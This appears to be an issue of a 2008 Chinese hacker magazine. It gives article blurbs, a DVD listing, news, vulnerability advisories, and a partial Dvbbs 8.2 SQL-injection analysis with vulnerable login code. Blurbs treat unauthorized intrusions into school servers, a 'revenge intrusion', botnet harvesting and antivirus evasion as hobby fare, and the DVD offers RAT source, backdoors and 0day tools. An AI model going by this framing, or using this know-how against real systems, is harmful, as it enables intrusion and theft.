可分析完源码，对于这个“第一品牌”，我实在不敢恭维。漏洞发现得不多，就3 种，可是已经足以击垮这套程序了

### 376 SiteEngine 5.x 漏洞分析 /*旋木木*/

### 389 小工具，大作用！再破 Discuz!NT Jannock

WEB入侵检测，你还只用抓包、NC提交吗？（NC.EXE 瑞士军刀，常被用作黑客工具）。今天结合Discuz!NT Oday给大家介绍一个小工具，从某些方面来说，比NC 更有效，更实用。这个小工具就是：Firebug

### 390 小谈 WIN 系统 Hacking 中提权前的小命令 NP(NetPatch)

什么叫服务器的总体环境呢？例如：目标服务器开启的端口、进程、系统服务、安装了哪些程序、系统安全的大体设置。我们这边的探测，基本上都是建立在可以执行基本命令的WEBSHELL上的

## □ 窗 外

### 392 Linews

### 393 专题连载：FreeBSD 学习笔记（一） 风飘雨

人们正在关注Ubuntu，但这并不表示你可以忽略其它优秀的操作系统，特别是对于服务器市场，我一直坚信，无论是安全上还是性能上，毫无疑问，FreeBSD才是最好的选择

### 395 Chroot“监牢”之行（二） 上弦月

## □ 黑器免杀班

### 396 小议针对杀毒软件的脚本特征码免杀 逆流风（李友贤）

网上针对脚本特征码免杀的文章，教程很少，或者说没有，黑手出的《精通黑客免杀》里面提到的也不多。所以写此菜文，希望对大家玩黑道路上有点帮助

### 398 编译 PoisonIvy 2.3.2的二进制数组ShellCode 免杀 x140cc

## □ 西线无战事

### 378 MS Windows Token Kidnapping本地提权方法介绍 古典娃娃【娃娃军团】

MS Windows Token Kidnapping本地提权是一种新的提权方法，这先是milw0rm 里面在10 月8 号放出来的一个未编译的exploit (http://www.milw0rm.com/exploits/6705 )，但很快国内就有人编译出来了可执行的程序

### 379 DreamMail 邮件 XSS 漏洞分析及利用 爱无言

但是很多人还是不喜欢去用IE 登录Web 邮箱看邮件，outlook 也很少有人选择使用，于是大家开始大力推广使用一款名叫“DreamMail”的软件来取代Foxmail

### 381 入侵联众分站 小帅@[O.S.T]

### 382 记一次学校网站安全检测 李劼杰神

### 383 艰难渗透——我是如何拿下学校服务器的 冰的原点[L.S.T]

### 386 跨服务器的旁注——检测某某网上书城 古典娃娃【幼儿园小组】

## □ 快码加编

### 400 犹抱琵琶半遮面——F# 初探 OrphousV

高级编程语言可分为两类，一是命令型语言，二是函数型语言。比如，常见的C/C++、Pascal都属于命令型语言。那函数型语言是什么呢

### 401 Detours 库简单利用简介 残猫

Detours 是微软开发的一个函数库用于修改运行中的程序在内存中的影像，从而即使没有源代码也能改变程序的行为。在实际使用中只要满足函数的参数，合理调用其提供的函数即可完成原本复杂的开发过程

### 402 Asp.net 安全浅析 4lert[D.R.T]



### 403 Delphi 编程实现有奖活动游戏刷分 AIRZERO

### 404 看我破解QQ远程聊天记录查看器 师卓

## 读编互动

## CRACKER

### 407 Q & A 徐师傅

### 404 10086 北京行 & 每月破资源



关键注册表项，原来是修改了web 桌面同时又不在桌面上显示。仔细想想这也不失为一种比较高明的挂马或刷网站流量的方式

## 新闻时评

### 410 QQ搞“活动”，用户免费“国内国外双飞”

### 419 批处理写 pubwin 防逃费辅助软件 赤龍 @ 无情剑客

上次写一个关于pubwin 破解的文章，今次给大家带来的是防逃费。本文章并没有涉及一些编程知识，只需要利用批处理就能够写出自己的防逃费软件了，这样就更加适合我们这些菜鸟网管

## 肉鸡接龙

### 411 年末的狂欢：利用MS08067抓肉鸡 Simeon

如果说微软的“黑屏”事件从感情上伤害了钟爱它的粉丝，那MS08067 则生而逢时地拉动了一把杀软以及安全市场的内需，从经济学角度看，微软客观上为全球疲软的消费市场作出了其独特的贡献

### 420 亦正亦邪的 PsTools 牟晓东

但是它却完全可以被用来管理Windows NT/2000/XP/2003 系统。虽然PsTools 没有漂亮的图形界面，但功能却不容小觑（包含了Windows 内置的命令行实用程序）

### 423 偷取网页木马源码 旋风骑士

它的功能非常全。我不是给大家送网马的，我是教大家偷它的技术的

## 菜鸟恶补

### 413 Vista 也玩 PHP（中） 上弦月

如果没有一个好的开发环境，自然是不方便的。那Vista下怎样搭建一个PHP 环境呢

## 新洞练练看

### 414 命令行下压缩也疯狂 过客似风

### 426 PHP168 下载任意文件 0DAY 漏洞分析与利用 冯谷 /rabbitsafe

这个下载任意文件漏洞出现在job.php 文件中，这个文件主要是提供下载文章附件功能的

# 酷玩

### 415 QQ 防盗秘笈 裤 g g

密码框里面的“* ”号会在你按下键盘后的零点几秒后才出现，而不是刚按下键盘“* ”号就出现

### 427 dedecms 最新 sql Oday 冰的原点

这个漏洞文件好象也只在最新版本里有，漏洞文件是：company/search.php

## cool 技巧

### 429 是你让我如此心惊胆战——记对siteDynamic的一次邂逅 孤水绕城【L.S.T】

Admin 目录下login.asp （后台登陆检测文件）的漏洞代码

### 431 MirCms 传奇私服系统漏洞分析与利用 冯谷 /rabbitsafe

个人总结了一下传奇私服的常见漏洞隐患以及部分漏洞代码的分析，以下为传奇私服漏洞大全，希望大家玩传奇私服的时候，可以自己做主

## Q 版黑客

### 416 图片链接也能挂马 菜客

别人给你一个图片链接http://www.yoursite.com/pianren.JPG ，它安全么？你敢打开它吗

### 417 轻松获取 flv 网络视频地址 icefall

其地址通过各种手段进行了加密，很多朋友都懊恼过无法下载。见到自己喜欢的视频如何将其保存下来呢，本文就讲解一下笔者所掌握的几种方法

### 434 acteecompany 企业网站建设系统漏洞分析 zarich

终于在产品展示的sub product()过程中找到了程序员的疏忽

### 418 桌面下的邪恶 icefall

同时用regmon 监视注册表改动，经过分析终于找到几个

### 435 由修补学院官方网站漏洞看网站安全

h4ckj0y

这个问题发生在chklogin.asp第4行到第8行

437 探究追风动漫网漏洞
梦幻剑客

如果有文件忘记过滤的话还是有希望注入的。查看flash_play.asp文件，发现如下代码

439 新云0day——跨出来的精彩
Dream an end & 赤龙

因为防注入文件对注入字符过滤的很严格，可是却没有过滤跨站的字符，CheckStr()函数又起不到任何作用，这就是漏洞所在

## □ 西线无战事

440 Linux下的嗅探
冷焰

终于看到了一篇linux下详细的入侵教程，而且还是嗅探方面的，呵呵，这方面的资料真是太少了。看够了全是asp注入的文章，这样的教程是否让大家眼前一亮呢

441 Gene6 FTP Server 提权技巧
晓华

以前杂志有过了Gene6 FTP提权的文章，网上也有的。不过都没有本文来得图文并茂，详细清楚。相信大家以后遇到这样的提权过程，可以直接拿本文来照本宣科了。

443 对某虚拟主机的一次安全渗透
simeon

在3389中无法用pwdump获得hash，可以先得到一个用户身份的shell再执行pwdump4就可以了。另外破解NTHash，现在应当用rainbow来破比较快速

447 从webshell到C段肉鸡
冰的原点

文章里其实都是一些常规泛滥的技术了，不过也是最需要掌握的，大家温习一下吧

449 Xlightftp助我提权——记一次艰难的报复性入侵之旅
孤水绕城

针对文章中一直想用eval端的小马来上传大马这一思路，在这里我真的不得唠叨几句了，为什么非要写入大马呢？一些CS端的asp木马用c端提交后直接就是一个webshell，根本不需要上传的，像海阳顶端的eval版，我还没有碰到过它被查杀的情况。利用的eval版都是在内存中操作的，提交和直接上传大马得到一个webshell一点区别也没有的。如果嫌备份的eval端提交后有乱码，可以用海阳顶端2006+版或桂林老兵的wsc.exe。看到N多文章里N多人还是这个提交小马上传大马的思路，看到这里我就烦，为何不一步到位呢？

452 JSP注入搞定教务处
知识型流氓

作者本机装一个ORACLE吧，然后试一下网上linux在注入点直接获取webshell或执行系统命令的一些方法

454 渗透XX大学主站
晓华

文章里提到的都是一些必须掌握的常规知识了，大家温习一下吧，注意其中的一些小细节就可以。熟练掌握后，相信入侵一个有漏洞的php站并不算是太难。这些都是盲注入的技巧，熟练掌握后你应该学习php语法进行白箱测试了

457 入侵某高校网站
pplychen

本文和《渗透XX大学主站》不同的是补充了几个php注入的小技巧，并且是通过loadfile来读源文件，分析代码来入侵的

## □ 高手专栏

459 我在入侵过程中注意的一些细节
冰的原点

其实像这样的文章比较难写，没有具体的描述，只有经验谈。入侵过很多站，积累的经验只有一句话，大家还是仔细品味一下作者的经验浓缩吧

460 小谈WIN系统Hacking中的小命令
NetPatch

虽然都是系统自带的命令，对基础知识领悟的不同，想法自然也会不一样了

## □ 窗外

463 Linews

464 专题连载：FreeBSD学习笔记（二）
风飘雨

安装像桌面环境之类庞大的东东，还是选择Packages的好，如果自己编译可是要很久很久的时间

## □ 黑器免杀班

465 新方式轻松过掉NOD32输入表函数查杀
X140CC

而原因很可能是关于函数的描述没有改变，NOD32依然可以判断出是木马。当破坏了这里的描述之后，很可能NOD32就无法识别了

466 NOD32特征码修改免杀
母鸡

通过函数名移位等方法不能达到免杀的效果，那我们该怎么办呢？放弃吗

## □ 快码加编

468 浅谈NDIS中间层驱动下防火墙的实现（一）
ay

高级编程语言可分为两类，一是命令型语言，二是函数型语言。比如，常见的C/C++、Pascal都属于命令型语言。那函数型语言是什么呢

469 远程控制软件界面美化之长路径的化简
杨阳 胡乐

我们可以把目录中间的路径用“...”表示。如果需要把文件拷贝到“C:\新建文件夹\新建文件夹\新建文件夹\新建文件夹”下

472 漫话溢出
OrphousV

有许多读者不知道Egg是何方神圣。不过相信大家都知道Shellcode。Egg类似于Shellcode，是在目标主机运行的代码

474 QQ好友密探
风飞沙

相信大家都有这么一个想法，就是想用一款工具查探到自己的QQ号是否在对方好友列表中

## □ CRACKER

477 每月破资源

477 小菜的重启验证破解之旅
龙虾

## □ 读编互动

478 Q & A
徐师傅

479 29号信箱

# DVD 目录

## 手册相关

### [2008 年 7 月]
- 网蚁小马.asp
- 零号黑色提交工具
- C32Asm v0.4.12 完全版
- 修改 PE 工具 MaskPE2.0
- 凤凰 RemoteABC V1.1.0.0 版破解
- Restorator 2007
- 汇编实现短信炸弹的代码及程序
- 一个帮助破解的小软件代码及程序
- 汇编程序设计基础专题 (chm 版)
- ... ...

- Dedecms 织梦系统 0DAY-dedeExp
- greenbrowser 的 cookie 读取插件
- 五款修改软件时间的小工具
- 灰色按钮加强版
- ... ...

### [2008 年 8 月]
- Apache Tomcat scan 扫描工具
- URL 编码工具
- byshell 远程控制
- Gh0st RAT Beta2.5 源代码
- 删除 MSN 共享文件夹.bat
- 导入 MSN 共享文件夹.reg
- 游戏窗口化工具 D3DWindower
- ... ...

### [2008 年 11 月]
- mysql 数据库服务器
- php-5.2.6
- ZendOptimizer-3.3.3
- lanker 微型 PHP 后门 2[1].0 正式版
- 7-Zip V4.58 Beta_ 绿色完全汉化版
- 破解 NOKIA 塞班 S60 系统相关工具
- Pubwin2008 终结者(超级加强版)源代码
- ... ...

### [2008 年 9 月]
- WSI 狼族 Mysql5 注射工具 v5.0.18 黑手专版
- DarkstRat 黑手特约版
- shell 掠手
- 秘文图制作器黑手专用版
- 免杀制作器黑手专版
- 微软出品的 asp 注射漏洞分析工具
- qq for linux
- ... ...

### [2008 年 12 月]
- 按钮窗体能手黑客手册[专用版]
- 黑客手册诺顿溢出批量工具
- 整理 IP 段工具
- MS08-067 相关工具
- MYSQL 数据库服务器软件
- GetFlv 源代码
- 禁用活动 web 桌面选项.reg
- 隐藏设置 web 桌面.reg
- 批处理写的 pubwin 防逃费辅助软件

### [2008 年 10 月]
- 鼠标自由行软件 Synergy
  - QQ 空间人气精灵 V3.97 正式版
  - QQ 空间小秘书
  - QQ 空间日志浏览量
  - 刷 QQ 空间达人人气精灵

- PsTools 小工具包
- PHP168 下载任意文件 0DAY 漏洞利用程序
- dedecms- 织梦 PHP 文章系统 0Day
- wwwscan 扫描工具
- Linux 下的嗅探相关程序及套件
- Peid v0.95 11.03+ 超级特征库 2514 个
- 通用脱壳辅助工具 0.41 版
- UPX 静态脱壳机 0.3 版 + 源代码
- ... ...

- Cisco 之 OSPF
- Cisco 之 PPP
- Cisco 之 RIP
- Cisco 之 SDM
- Cisco 之 SSH
- Cisco 之 static route
- Cisco 之 Switch
- Cisco 之 VLAN

## 实用工具

Elite Protector v1.0 Public 是个软件保护工具，功能强大，自带压缩壳及捆绑功能，可带图标伪装、运行时显示虚假信息、并拥有反调试、杀死制定软件等功能

- Lost Door 3.0 Beta 国外远程控制软件
- 黑洞远程控制 v 2.00 Beta1
- X-Shell 是 Windows 平台下基于纯命令行的后门程序，实现了命令行下对多台主机的远程集中管理控制
- Ashampoo Magical Security v2.02 可以让你轻轻松松点击鼠标就能加密你的文件
- LaneCat 网猫是国内领先的网络监控管理系统软件
- 网络人 (Netman) 企业版 v4.05 是一款超级简单、安全，并且可以穿透内网的远程控制软件
- Radmin Viewer v3.3 可以远程控制你的计算机，你可以在本地看见远程计算机的屏幕显示，本地的鼠标、键盘的有关反应也会传递送到远程计算机
- 无忧在线电脑实时维护平台 v2.0
- WebCam Monitor v5.15
- ... ...

## 动画视频

- **2008 找肉鸡**
  1 介绍篇
  2 环境搭建篇 (上)
  3 环境搭建篇 (下)
  4 扫描篇 (上)
  5 扫描篇 (下)
  6 学习方向指导篇
  7 总结篇

- **Sniy 系列 C 编程 (共十三课)**

- **cisco 相关动画**
  - CiscoSTP
  - Cisco 之 ACL
  - Cisco 之 default gateway
  - Cisco 之 DHCP
  - Cisco 之 DynamipsGUI
  - Cisco 之 EIGRP
  - Cisco 之 IOS
  - Cisco 之 IPv6
  - Cisco 之 Lab
  - Cisco 之 NAT

## 娱乐岁末

·经典街机游戏集合，并送上 WinKawaks 模拟器软件，哇哈哈，口水 ing，岁末玩个够！

关于这款模拟器的详细使用请打开光盘中 nohack / game / Kawaks 1.45 最终 / 目录下的 “WinKawaks 完全使用教学.chm” 文件。另外，当前目录也有 “格斗游戏出招表.chm” 文件，喜欢热血格斗的朋友可要好好研究哦！

而且！！！貌似 WinKawaks 模拟器软件还可以联网游戏哦！！！

系统要求：CPU 最低 P166 以上 (推荐 PIII 500 以上)

- 操作系统：Win9x/Me/NT/2000/WinXp
- 内存：32M 以上 (推荐 128M 以上)
- 声卡：无强烈要求，一般的 AC '97 就行了
- 显卡：AGP 显卡以上，最好显存大于 16M (主要针对一些像 KOF 系列那样的大游戏)

### WinKawaks 模拟器简介:

最好的街机模拟器之一，与 Nebula 和 MAME 齐名，支持的游戏有 CAPCOM 公司的 CPS1、CPS2 所有游戏，如三国志、恐龙新世纪、名将、街霸、圆桌骑士、龙与地下城等，和 SNK 公司的 NEOGEO (MVS) 大部分游戏，如拳皇、合金弹头、彩京 1945、侍魂、饿狼、月华等 (相信大家都在街机上玩过吧)，并支持多重画面显示处理特效，运行游戏的速度在这三个模拟器中是最快的，而且系统要求极低，所以一直深受着广大街机模拟爱好者的喜爱。

## ·迈克杰克逊柏林演唱会PMP格式PSP专用视频欣赏

## 人物档案

- 全名: Michael Joseph Jackson
- 中译名: 迈克尔·约瑟夫·杰克逊
- 台湾译名: 麦可·杰克森
- 香港译名: 米高·积逊
- 出生日期: 1958年8月29日12:13 a.m.
- 星座: 处女座
- 体重: 130磅 (60公斤左右)
- 视力: 远视
- 眼珠色: 深棕
- 发色: 黑色
- 鞋码: 美国10号 (欧洲: 42)
- 身高: 1.78米(5英尺10英寸)
- 学历: 毕业于美国的黑人联合大学
- 出生地点: 美国
- 现今居所: 美国
- 职业: 歌手、歌曲作者、音乐制作人、舞蹈家、编舞、演员、导演、企业家
- 主要音乐风格: New Jack Swing (新杰克摇摆舞曲), Club/Dance(俱乐部舞曲), Pop/Rock (流行/摇滚), Motown (摩顿黑人音乐), Urban (都市流行), Funk (放克), R&B (节奏布鲁斯)
- 主要歌唱特色: 假声, 痉挛, 活力, 热情, 伤感, 警醒, 快乐, 自信, 丰富, 时髦, 真诚, 盛典, 神秘, 口技
- 主要舞蹈风格: 现代舞、太空步、机械舞、霹雳舞、踢踏舞
- 兴趣爱好: 阅读、油画、素描、武术 (功夫、柔道、空手道)、舞蹈、游乐园、旅行、购物、看电影、看卡通、打电子游戏
- 收集爱好: 油画、雕塑、电影大事记、古董服饰
- 热爱关心的事物: 儿童 (尤其是身患绝症以及贫穷的儿童), 动物

1984年11月20日, Michael在好莱坞“星光大道”上留名。
1987年, Michael开始了他第一个个人巡回演唱会以宣传他的新专辑《Bad》。

2000 年 全球期待迈克尔的新专辑发行,新专辑发行后迈克尔·杰克逊将退出歌坛。

## 辉煌成就

## 1992 年
- NABOB
  1. 终生成就奖 Lifetime Achievement Award

## 1993 年
- 有色人种民权促进协会 NAACP Image Awards (第25届)
  1. 杰出音乐录像带奖 Outstanding Music Video (Black Or White)
  2. 25周年纪念年度艺人奖 25th Silver Anniversary Entertainer Of The Year Award
- 全美音乐奖 (第20届) American Music Award
  1. 最受欢迎的流行/摇滚专辑 Favorite Album, Pop/Rock
  2. 最受欢迎的灵魂/节奏蓝调单曲 Favorite Single, Soul/R&B
  3. 特殊国际艺人奖 Special International Artist Award
- 葛莱美音乐奖 (第35届) Grammy Music Awards (1984)
  1. 当代传奇奖 Living Legend Award
- 灵魂列车音乐奖 (第7届) Soul Train Music Award
  1. 1993年年度人道主义 1993 Humanitarian Of The Year Award
  2. 最佳节奏蓝调专辑 Best R&B Album (Dangerous)
  3. 最佳节奏蓝调单曲 Best R&B Single (Remember The Time)
- 世界音乐奖 (第6届)World Music Awards
  1. 全球最畅销流行艺人 World's Best Selling Pop Artist
  2. 全美最畅销艺人 Best Selling American Artist
  3. 本世纪全球最畅销艺人 World's Best Selling Artist Of The Era
- 金氏世界纪录 The Guinness Book Of World Records
  1. 终生成就奖 Lifetime Achievement Award

## 1995 年
- MTV 音乐录像带奖(第12届)MTV Music Video Awards
  1. 最佳舞曲音乐录像带 (Scream)
  2. 最佳舞蹈 (Scream)
  3. 最佳美术指导 (Scream)

## 1996 年
- 世界音乐奖 (第8届)World Music Awards
  1. 历年最畅销专辑 (Thriller)
  2. 最佳流行男歌手
  3. 最佳节奏蓝调艺人
  4. 最佳唱片男歌手
  5. 最佳美国男歌手

# 不老传奇

2007年四月的一天，我无意之间认识了你，是你让我近十五年的梦碎了……也是你改变了我的一生。始终还是你让我踏入了‘黑道’，我这辈子都不会忘记你。

2007年正上初三的我，第一次在邮局的海报上遇到了你。看见你的第一眼，我便爱上了你，爱得不能自拔，爱得不知所措。因为有了你，我才成了我，而我的时间到处都是你。

在书桌上，我堆放着你；在枕畔旁，我拥你成眠；在心海中，我扬你成帆。你有你的本色、平实和共享，我有我的追求、执著和努力。你已融入我的生活，成了我生活的一种形态。三年来我们一路走过，你是文化的大餐，是我人生的盛宴。

别人都沉浸在为模拟考苦苦奋战的那刻，我仍然悠闲地拿着你——《非安全》，在教室的一个角落，慢慢体味她的芳香……模拟考的失利，对我的打击很大，但我仍然没有忘记她，追求她。就这样在中考的节骨眼上，我出轨了；我败了；我输了……

《非安全》——你岂止是本书？你实在是一个鲜活的生命！那张张振翅欲飞的书页，那个个啼叫争鸣的文字，让我深感寂寞、深感凄凉的心，为之跳跃，为之舞动！

一粒沙里看世界，笨笨女人谈人生。在我眼里，尽管她们的文字中自始自终弥漫着死亡的气息，但我读出的却是对生命的坚韧和对爱情的矢志不渝……

当灵魂走向浮躁，当繁华遮住视线，我紧握《非安全》的双手在深思：灵魂的翅膀能飞多高？文化的脚步能走多远？文化与市场，安全与共享，对峙成了一场苦涩的谈判。

当我想起你的背影，感到如此的悲凉；遥望黑史的扉页，眼已模糊……天空在哭泣，不论走到那里，都有你相随，那是一种寸步不离的感觉。

如果离开你会哭泣，那么我会陪你，是你的微笑结束了我的疲倦，让我对你说：永远的安全，不老的传奇！

## 关于读者指出的0806期光盘盘面地图引用的问题

图lichhao

图1

1914年，英印政府外交大臣麦克马洪构想了一条印藏分界线，是以喜马拉雅山脊分水岭的连接线作为界线，如图1所示，可当时对西藏拥有主权的中国政府对此并不知情。20多年后，英国政府正式把麦克马洪线标入地图和政府文书后，也遭到南京政府的反对，新中国成立后中国继续不承认这条分界线。

中国方面于11月22日零时起全线主动停火，12月1日起，中国边防部队开始全线后撤至1959年11月7日中印双方实际控制线内，较“麦克马洪线”再后撤二十公里，还将缴获的武器、军车和军用物资交还印方。

图3

印度于1954年将麦克马洪线作为中印边境，占领了属于中国的9万平方公里的土地。加上侵占的新藏阿里地区，共侵占中国领土12.5万平方公里，相当于一个福建省，两国关系就此跌入低谷。

1963年5月26日前释放和遣返战俘后，于是乎，藏南又被印方控制。直到今天，中印边境问题仍然没有圆满解决，但是在我国正式出版的地图上从来没有承认过麦克马洪线，如图2，这是中国地图出版社出版的地图局部（http://www.chinamap.com/newinternet/maps/zhengqu400.htm)。

图2 0806期光盘盘面引用

1962年10月，中印边界战争全面爆发，印度军队在中印边境战争中遭到了彻底的失败。中国政府在战争取得全面胜利的形势下主动全面停火，最主要的原因还是避免战争进入长期化，不利于中国军队后勤补给。

可知，非安全0806期光盘盘面所引用的地图是错误的，如图2，这个地图被很多媒体引用，希望大家注意。【感谢读者lichhao】

# 新闻概论

2008年已过半，奥运离我们也越来越近，相关部门开始“紧张”了。首当其冲的自然是安全问题，这个要放在第一位，友谊第二，比赛第三嘛！相信奥运期间，上网的人也很多，因为网络能够带给我们更多海量的信息。处在信息时代的今天，不知道网络那还真是太那啥TV了吧！大家一定要记住：“上归上，安全也要跟上！”

08年上半年“三大流行木马”

某安全中心通过对近期木马查杀次数的分析，评出机器狗系列木马、磁碟机木马和网游盗号木马为2008年上半年的三大流行木马。这些木马的感染人数均在百万以上，间接造成经济损失数额巨大，成为一段时间以来危害网络安全的罪魁祸首。

第一：盗号木马

自2006年以来，各类木马均呈爆发趋势，其中以盗号木马尤为猖獗。2007年网游盗号木马开始泛滥，并且和其他木马“联合作战”，不仅盗取游戏账号，更直接威胁网络银行密码。而且在2008年，《魔兽世界》全国总冠军账号被盗一案，将盗号木马的威胁推向高峰。

相关调查显示，在2008年爆发的各类木马中，网游盗号木马成为危害网民最严重的一类木马，占木马总数的76%以上，超过38%的网民曾有过账号被盗的经历。网游盗号的问题已在一定程度上成为了网游业发展的绊脚石。

第二：“机器狗系列木马”变种频繁在越来越多的查杀软件围剿时，各类木马不仅在技术上加强“反查杀”的特性，同时也通过频繁变种躲避追杀，这成为今年木马爆发的显著特征。机器狗系列木马便是其中的典型代表。

据了解，机器狗木马至少已经出现过 4 次大变种，几十次小变种，均以躲避相关查杀软件为目的。并且每次变种之后的木马越来越恶劣，从最初的替换系统文件，到中期变种为穿透网吧还原系统下载盗号木马，直到最近公然干扰查杀软件正常运行。可见，这真是正邪技术的较量啊！

# 第三：“磁碟机”超强传播引发恐慌

磁碟机木马是 2008 年以来最为活跃的一个木马，其破坏性可与“熊猫烧香”相媲美，而其传播途径却极为特殊。它主要利用感染 U 盘的方式，通过 U 盘传播。由于 U 盘等移动硬盘是日常工作中最为常用的文件存储和转移方式，因此，只要一台电脑感染磁碟机，就有可能导致大范围的感染。

磁碟机木马几乎继承了以往所有木马的特性，并能阻止查杀软件的运行，系统在感染病毒后会出现恶意进程，严重干扰电脑正常运行。

> 小迷点评：木马程序通过“偷、骗、抢”等恶劣行为，对个人网络安全造成严重威胁。建议用户不应该随意打开来历不明的邮件；不要随意下载和运行来历不明的软件；及时修补漏洞和关闭可疑端口；及时升级病毒库；设置复杂型密码。

# IE8 浏览器将降低 ActiveX 安全风险，插件功能被限制

微软消息：ActiveX 漏洞长期以来被 Windows 用户视为眼中钉，各种使用 ActiveX 漏洞的间谍软件、恶意软件、病毒随处可见。尽管有许多针对 ActiveX 的苛刻批评，但是 ActiveX 仍然是浏览器插件的主要安装手段。

IE8 中将做出的最大改变是安装 ActiveX 控件不再需要管理员权限，ActiveX 控件将只安装在当前用户的配置文件下。虽然恶意软件仍然可以利用 ActiveX 控件，但是它只会影响到当前账户，而不会影响到本机上的其他用户。

为了支持这项工作，例如 Flash 插件、Java 的 Runtimes 插件以及微软自己的 Silverlight 插件将以特殊的形式进行安装，使每个用户都能使用这些插件，但是对于其他插件，将受到 IE8 浏览器的管制。另外，用户还必须使用 Windows Vista（或 Windows Server 2008）操作系统才能激活这项功能。虽然 IE8 也有对应于 XP 的版本，但是不会拥有这项功能。



该漏洞存在于 Windows 2000 Server、Windows Server 2003 和 Windows Server 2008 上的 Active Directory 实现、Windows XP 和 Windows Server 2003 上安装的 Active Directory 应用程序模式 (ADAM)，以及 Windows Server 2008 上安装的 Active Directory 轻型目录服务 (AD LDS) 中，攻击者可能利用该漏洞导致拒绝服务情形。在 Windows XP、Windows Server 2003 和 Windows Server 2008 上，攻击者必须拥有有效的登录凭据才能利用此漏洞。利用此漏洞的攻击者可能会导致系统停止响应或自动重新启动。

# MS08-032: Microsoft ActiveX Kill Bits 安全更新

此安全更新可解决 Microsoft Speech API 的一个公开报告的漏洞。如果用户使用 Internet Explorer 查看了特制网页并启用了 Windows 中的语音识别功能，该漏洞可能允许远程执行代码。那些账户被配置为拥有较少系统用户权限的用户比具有管理用户权限的用户受到的影响要小。此更新还包括 BackWeb 制作的软件的 kill bit。

- 建议：
    - Microsoft 建议用户应该考虑应用安全更新。
- 受影响的软件：
    - Windows 2000 Service Pack 4
    - Windows XP Service Pack 2/Service Pack 3
    - Windows XP Professional x64 Edition/Service Pack 2
    - Windows Server 2003 Service Pack 1/Service Pack 2
    - Windows Server 2003 x64 Edition/Service Pack 2
    - Windows Server 2003 (用于基于 Itanium 的系统) SP1/SP2
    - Windows Vista/Service Pack 1
    - Windows Vista x64 Edition/Service Pack 1
    - Windows Server 2008 32位系统/x64系统/Itanium系统
- 微软的安全公告：
    - http://www.microsoft.com/china/technet/security/bulletin/MS08-032.mspx

# Apache mod_proxy_http 模块中间响应拒绝服务漏洞

Apache HTTP Server 是一款流行的 Web 服务器，相关版本中的 mod_proxy_http 模块中的 ap_proxy_http_process_response() 函数没有正确地转发中间响应，如果 mod_proxy 受骗向客户端发送了大量的中间响应的话，就会耗尽大量内存资源。

- 受影响系统：
    - Apache Group Apache 2.2.8
    - Apache Group Apache 2.0.63
- 不受影响系统：
    - Apache Group Apache 2.2.9
- 目前厂商已经发布了升级补丁以修复这个安全问题，请到厂商的主页下载：
    - http://apache.sunsite.ualberta.ca/httpd/httpd-2.2.9-win32-src.zip
    - http://apache.sunsite.ualberta.ca/httpd/httpd-2.2.9.tar.gz

# MS08-035: Microsoft Word 中存在拒绝服务漏洞

- 受影响软件：
    - Microsoft Office 2008 for Mac
    - Microsoft Office 2004 for Mac
    - Microsoft Outlook 2007 SP1
    - Microsoft Outlook 2007
    - Microsoft Word Viewer 2003 SP1
    - Microsoft Word Viewer 2003
    - Microsoft Word 2003 SP3
    - Microsoft Word 2003 SP2
    - Microsoft Word 2002 SP3
    - Microsoft Word 2000 SP3
- 不受影响软件：
    - Windows 2000 Professional Service Pack 4
    - Windows XP Home Service Pack 2
    - Windows XP Tablet Edition Service Pack 2
    - Windows XP Media Center Edition Service Pack 2
    - Windows Vista/Service Pack 1
    - Windows Vista x64 Edition/Service Pack 1
    - Windows Server 2008 (用于基于 Itanium 的系统)
- 微软的安全公告：
    - http://www.microsoft.com/china/technet/security/bulletin/MS08-035.mspx


## 肉鸡搜龙：Dvbbs 8.2 惊爆远程注入漏洞

图/落叶纷飞 @ 肇庆

**肉鸡栏：**
Dvbbs 每个版本都能被挖掘出惊喜，8.2 版本当然也不例外。想想有多少人使用 Dvbbs 吧，参考《Dvbbs 8.2 惊爆远程注入漏洞》中的方法，就可以估算下肉鸡的数量级了，记得不要太过火哦！

今天，我在网上闲逛的时候，无意中发现有人发布了 Dvbbs 8.2 的注入漏洞，该漏洞通杀 Access 和 MSSQL 两个版本。漏洞存在于 login.asp 文件，现在我们来看一下 login.asp 文件的部分漏洞代码：

```asp
……省略……
Dim ajaxPro
ajaxPro=CInt(Request.Form("ajaxPost"))
'Response.Write(ajaxPro):Response.End()
If ajaxPro=1 Then
    ajaxPro=False
Else
    ajaxPro=True Rem 非ajax登录
End If
……省略……
username=trim(Dvbbs.CheckStr(request("username")))
If ajaxPro Then username = unescape(username)
……省略……
Set chrs=Dvbbs.Execute("select Passport,IsChallenge from [Dv_User] where username='"&username&"' and IsChallenge=1")
……省略……
```

